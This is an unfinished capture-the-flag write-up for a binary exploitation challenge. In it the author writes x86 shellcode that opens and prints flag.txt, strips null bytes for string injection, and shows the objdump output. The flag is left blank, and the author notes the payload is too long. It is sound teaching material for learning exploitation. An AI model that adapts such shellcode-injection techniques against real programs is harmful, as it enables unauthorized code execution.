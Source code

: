 # shellcode
__Category:__ Binary Exploitation   
__Points:__ 200

### Problem:

This [program](vuln) executes any input you give it. Can you get a shell? You can find the program in /problems/shellcode_2_0caa0f1860741079dd0a66ccf032c5f4 on the shell server. [Source](vuln.c).

##### Hints:
> Maybe try writing some shellcode?

> You also might be able to find some good shellcode online.

### Solution:

I started by looking at the source. The program accepts up to 148 characters as input and executes the input.
I then opened the problem directory and found a flag.txt file. I assumed printing this would give the flag. Time to write some shellcode.

```Assembly
section .data
   bufsize dw   1024
   filename db  'flag.txt'

section .bss
   buf resb     1024
   
section .text
  global _start
 
_start:
  ; open the file
  mov ebx, filename
  mov eax, 5 ; Syscall number for open()
  int 80h    ; syscall for the function stored in eax
  
  ; Read the file
  mov ebx, eax ; Get file descriptor
  mov eax, 3   ; Syscall number for read()
  mov ecx, buf
  mov edx, bufsize
  int 80h
  
  ; Write to stdout
  mov eax, 4 ; Syscall number for write 
  mov ebx, 1 ; stdout
  mov ecx, buf
  int 80h
```
  
  This assembly code opens the flag.txt file, reads it into a buffer, then writes the buffer to stdout. I saved it in a file called shell.asm then used nasm to compile and ld to link the program.
  
```Bash
  $nasm -f elf -o shell.o shell.asm
  $ld -o shell shell.o -m elf_i386
```

I created a flag.txt file on my computer and tested the program out. It works, so the next step was to turn it into shellcode.I used objdump to get the raw byte code
  
```Bash
$objdump -M intel -d shell

shell:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	bb 02 a0 04 08       	mov    ebx,0x804a002
 8049005:	b8 05 00 00 00       	mov    eax,0x5
 804900a:	cd 80                	int    0x80
 804900c:	89 c3                	mov    ebx,eax
 804900e:	b8 03 00 00 00       	mov    eax,0x3
 8049013:	b9 0c a0 04 08       	mov    ecx,0x804a00c
 8049018:	ba 00 a0 04 08       	mov    edx,0x804a000
 804901d:	cd 80                	int    0x80
 804901f:	b8 04 00 00 00       	mov    eax,0x4
 8049024:	bb 01 00 00 00       	mov    ebx,0x1
 8049029:	b9 0c a0 04 08       	mov    ecx,0x804a00c
 804902e:	cd 80                	int    0x80
  ```
  
Since we are injecting the program as a string we cannot have any null bytes (represented by 00) since this will terminate the string. I rewrote the program using some tricks to remove any null bytes. Also since we are only injecting the start function, I pushed "flag.txt" onto the stack.
 
```Assembly
 section .data
   bufsize dw   1024

section .bss
   buf resb     1024
   
section .text
  global _start
 
_start:
  xor eax, eax    ; clear eax
  ; push "flag.txt" onto the stack (in reverse order)
  push edx
  push 0x7478742e ; txt.
  push 0x67616c66 ; galf
  
  ; open the file
  mov ebx, esp ; filename
  xor eax, eax
  mov al,  5   ; Syscall number for open()
  int 80h      ; syscall for the function stored in eax
  
  ; Read the file
  mov ebx, eax ; Get file descriptor
  xor eax, eax
  mov al, 3    ; Syscall number for read()
  mov ecx, buf
  mov edx, bufsize
  int 80h
  
  ; Write to stdout
  xor eax, eax
  xor ebx, ebx
  mov al, 4 ; Syscall number for write 
  mov bl, 1 ; stdout
  mov ecx, buf
  int 80h
```
 
 I just realized this is going to be way too long to input into our program. I'll get back to this problem soon. I'll probably try executing /bin/sh
  
### Flag:

picoCTF{}
